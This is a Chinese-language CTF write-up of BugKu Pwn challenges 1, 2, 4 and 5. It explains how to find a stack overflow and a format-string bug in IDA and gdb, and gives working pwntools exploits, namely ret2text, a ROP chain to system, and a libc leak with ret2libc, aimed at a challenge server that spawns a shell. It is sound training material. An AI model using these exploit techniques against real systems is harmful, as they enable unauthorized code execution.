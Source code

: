 ```yaml
---
title: BUGKU[Pwn]
author: Stan
date: 2020-05-18 09:10:33 +0800
categories: [BugKu,BugKu-Pwn]
tags: [Pwn]
---
```

## pwn1
```
nc 114.116.54.89 10001
```

直接nc过去，ls即可看到文件，发现flag，cat即可发现flag

```
cat flag
```

---

## pwn2

先下载文件，拉入UBUNTU，checksec检查一下

	checksec pwn2

发现啥都没开，最重要的是架构是amd64

在windows里把pwn2拉入64位ida

按`F5`切换到伪C

注意这句话

> read(0, &s, 0x100uLL);

常见的缓冲区漏洞

按`shift+f12`查看字符串

发现有一个cat flag

按`x`发现交叉引用

> .text:0000000000400769                 mov     edi, offset command ; "cat flag"
> .text:000000000040076E                 call    _system

之后计算偏移offset

> char s; // [sp+0h] [bp-30h]

s=30h=48

向上8字节rbp

> +0000000000000000  s              db 8 dup(?)
> +0000000000000008  r              db 8 dup(?)

所以offset=48+8=56

之后写exploit

```python
from pwn import * 
a=remote('114.116.54.89',10003)
a.recvuntil("?") 
a.sendline(b"a" * 56 + p64(0x400769))
a.interactive()
```

然后运行

```
python 1.py
```

即可发现flag

---

## pwn4

先下载文件，拉入UBUNTU，checksec检查一下

	checksec pwn4

发现啥都没开，最重要的是架构是amd64

在windows里把pwn4拉入64位ida

按`F5`切换到伪C

发现read可以溢出

> read(0, &s, 0x30uLL);

`shift+f12`查看字符串，发现没有/bin/sh,但是有$0

> .data:0000000000601100 a4985y9yDyYfg8y db '4985y9y()DY)*YFG8yas08d976s08d7$0',0

$0传入system的效果和/bin/sh一样

查找$0的地址

````
ROPgadget --binary pwn4 --string '\$0'
````

![image-20200922233127332](https://i.loli.net/2020/09/22/PiJSHxp349dfFvK.png)

因为要做ROP，之后找pop rdi ; ret的地址

````
ROPgadget --binary pwn4 --only 'pop|ret'
````

![image-20200922233308201](https://i.loli.net/2020/09/22/awYEFAjROLTXo9q.png)

之后找system函数的地址，直接在IDA里就能找到

> .text:000000000040075A                 call    _system

然后构造exploit

````python
from pwn import * 
a=remote('114.116.54.89',10004)
a.recvuntil("e") 

rdi = 0x00000000004007d3 
bash = 0x000000000060111f
system = 0x000000000040075A
a.sendline(b"a" * (16+8) +p64(rdi)+p64(bash)+p64(system))

a.interactive()
````

运行脚本就连上了，`catflag`即可发现flag

---

## pwn5

先下载文件，拉入UBUNTU，checksec检查一下

![image-20200923150129637](https://i.loli.net/2020/09/23/yAxfM7roaEIDdl1.png)

架构是amd64，并开启了NX

在windows里把pwn2拉入`ida64`

按`F5`切换到伪C

发现乱码，修改配置文件后`ALT+A`全部选上UTF-8，再按一次`F5`，中文就可以显示了

![image-20200923150253607](https://i.loli.net/2020/09/23/NOB7sIonACtU8Kh.png)

注意这句

> printf(&s, &s);

↑这是格式化字符串漏洞

> read(0, &s, 0x40uLL);

↑这是溢出点

没有system地址，需要用libc偏移推出system地址，用格式化字符串漏洞泄露出来，然后用栈溢出漏洞构造rop链

### 用格式化字符串漏洞泄露出栈上的__libc_start_main地址

`gdb `在printf设置断点后运行

![image-20200923152454325](https://i.loli.net/2020/09/23/2dlI8VSuBDcMXHZ.png)

![image-20200923152946625](https://i.loli.net/2020/09/23/Ns3bGlkEBcpTVU1.png)

stack中第一行是本身，第二行是你的输入，所以要泄露的是第5个。又因为64位有6个寄存器，所以偏移offset=5+6=11

可以用**%11$p**来利用格式化漏洞输出_libc_start_main+240的位置，以此推算出__libc_start_main的位置，也就是

````python
sh.sendline(b'%11$p')
__libc_start_main=int(sh.recvuntil("%11$p")[:-6], 16)-240
````

### 寻找libc基址并推出system和shell地址

基本就是固定套路了

````python
libc = LibcSearcher("__libc_start_main", libc_start_main) #寻找匹配libc版本
libc_base = libc_start_main - libc.dump('__libc_start_main') #寻找libc基址
system_addr = libc_base + libc.dump('system') #system地址
binsh_addr = libc_base + libc.dump('str_bin_sh') #/bin/sh 地址
````

### 寻找rdi，ret地址以构成rop链

![image-20200923154925624](https://i.loli.net/2020/09/23/9pTECwtMnIWPZ43.png)

### 最后合并上面的信息，写出exploit

````python
#coding=utf-8
#因为有中文所以请一定加上上面这句
from pwn import *
from LibcSearcher import *
a = remote('114.116.54.89',10005)
a.recvuntil('?')

#用格式化字符串漏洞泄露出栈上的__libc_start_main地址
a.sendline(b'%11$p')
libc_start_main=int(a.recvuntil("%11$p")[:-6], 16) - 240

#寻找libc基址并推出system和shell地址
libc = LibcSearcher("__libc_start_main", libc_start_main) #寻找匹配libc版本
libc_base = libc_start_main - libc.dump('__libc_start_main') #寻找libc基址
system_addr = libc_base + libc.dump('system') #system地址
binsh_addr = libc_base + libc.dump('str_bin_sh') #/bin/sh 地址

#寻找rdi，ret地址以构成rop链
rdi=0x0000000000400933 #这里开始和普通ROP做法一样了

a.recvuntil('?')
a.sendline('真香鸽子'+'a'*28+p64(rdi)+p64(binsh_addr)+p64(system_addr))

a.interactive()
````

运行后可能会提示匹配多个libc，输入1就行了

flag就在根目录

---

flag{as67sdf834ht98e7sdyf9348yf0y}